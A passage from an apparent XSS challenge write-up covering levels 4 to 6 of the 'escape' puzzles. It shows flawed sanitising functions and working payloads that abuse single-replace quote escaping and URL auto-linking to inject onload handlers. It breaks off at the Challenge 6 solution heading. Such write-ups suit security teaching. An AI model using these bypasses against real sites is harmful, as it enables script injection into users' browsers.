```
[[a|"" onload=alert(1)//]]
```
A common pattern would be to create `onerror=”alert(1)”` attribute on `img` tag and point image to some non-existing url. But escape function replaces double quote with its html-encoded version. Luckily only first quote will be replaced (no global flag in second `replace` function call).
Also, after brief investigation I noted that server will load any image with alphanumeric name, i.e. `a.gif` is a valid image. So we have to use `onload` callback instead of `onerror` and two double quotes instead of one, the resulting html will look like this:
```
<img alt="&quot;" onload=alert(1)//" src="a.gif">

```
Challenge 5
-----------
```
function escape(s) {
  // Level 4 had a typo, thanks Alok.
  // If your solution for 4 still works here, you can go back and get more points on level 4 now.

  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```
Solution
-----------
```
[[a|http://onload=alert(1)//]]
```
The challenge is pretty similar to what we had in previous challenge, but now a developer fixed his bug and all double quotes will be replaced. What should we do now? Can we borrow double quote from somewhere else then? Maybe. 
Anchor tag have some double quotes, so if image's `alt` attribute will contain some `http://` string, it will be replaced with `<a href=”http://”>http://</a>` and then used in `alt` attribute.
After url replacement text will look like this:
```
[[a|<a href="http://onload=alert(1)//]]">http://onload=alert(1)//]]</a>
```
And after second one:
```
<img alt="<a href=" http://onload=alert(1)//" src="a.gif"> ">http://onload=alert(1)//]]</a>
```
And the browser will parse it as
```
<img alt="&lt;a href=" http:="" onload="alert(1)//&quot;" src="a.gif"> "&gt;http://onload=alert(1)//]]
```

Challenge 6
-----------
```
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
```
Solution